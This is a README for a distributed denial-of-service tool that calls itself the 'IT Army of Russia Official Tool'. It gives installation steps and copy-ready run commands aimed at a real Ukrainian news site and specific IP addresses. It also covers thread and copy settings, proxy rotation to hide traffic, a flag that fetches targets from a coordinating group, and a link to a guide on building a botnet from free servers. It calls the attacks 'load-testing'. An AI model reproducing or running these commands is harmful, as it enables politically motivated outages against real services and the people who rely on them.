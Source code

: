 ## IT Army of Russia Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

- **24.05.2022** Added auto-update option - see [Running](#2--running-different-options-for-targets-are-given)
- **21.05.2022** Added english localization - use flag `--lang EN` (more languages may be added later)
- **18.05.2022** Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).
- **15.05.2022** Completely updated asynchronous version, which ensures maximum efficiency and minimum load on the system

### 1. 💽 Installation

#### Extended instructions (RU only so far) - [click here](/docs/installation.md)

#### Python (if it doesn't work, try `python` or `python3.10` instead of `python3`)

Requires python >= 3.8 and git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Install and start Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Running (different options for targets are given)

#### Python with automatic updates (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (manual updates required) (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Options (check out more in the [CLI](#cli) section)

All options can be combined, you can specify them either before and after the list of targets

- Consider adding your IP/VPN to the attack (especially when running on dedicated server), add flag `--vpn`
- To use targets provided by from Cyber Army of Russia, add the `--itarmy` flag  
- Number of threads: `-t XXXX` - the default is 7500 (or 1000 if the machine has only one CPU).
- Number of copies: `--copies X` - in case you have 4+ CPU and stable network > 100 Mb/s

### 4. 📌 Help with finding new proxies for mhddos_p
The script itself and installation instructions are here: https://github.com/BionecX/proxy_finder

### 5. 🐳 Community (mostly in Russia)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)
- [Detailed analysis of mhddos_p and installation instructions](docs/installation.md)
- [Analysis of mhddos_p](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-0111)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --debug                Detailed log for each target
      --itarmy               Attack targets from Cyber Army of Russia  
      --copies 1             Number of copies to run (default is 1)
      --lang {en,ua}         Select language (default is ua)

### 7. Custom proxies

#### File format (any of the following):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    --proxies proxies.txt https://tsn.ua

where `proxies.txt` is your proxy list file (each proxy should be on a new line)

